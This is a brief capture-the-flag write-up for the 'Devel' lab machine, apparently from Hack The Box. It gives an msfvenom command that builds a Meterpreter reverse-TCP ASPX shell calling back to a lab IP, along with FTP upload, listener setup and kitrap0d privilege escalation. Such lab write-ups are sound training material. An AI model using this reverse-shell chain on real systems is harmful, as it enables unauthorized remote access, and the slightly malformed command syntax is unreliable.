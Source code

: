 # Devel Write-Up

Easy

Tags:
`Easy`
`External`
`Network`
`IIS`
`ASP`
`Penetration Tester Level 2`
`Remote Code Execution`
`Unrestricted File Upload`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
```

## Exploit

use ftp default creds

generate reverse_tcp shell using meterpreter

note: use `*.aspx`

```
msfvenom -p windows/meterpreter/reverse_tcp 10.10.16.12 4444 -f aspx > shell.aspx
```

put shell on web server

set listener using `exploit/multi/handler `

note: `set payload windows/meterpreter/reverse_tcp`

## Privilege Escalation

use `exploit_local_suggester`

use `ms10_015_kitrap0d`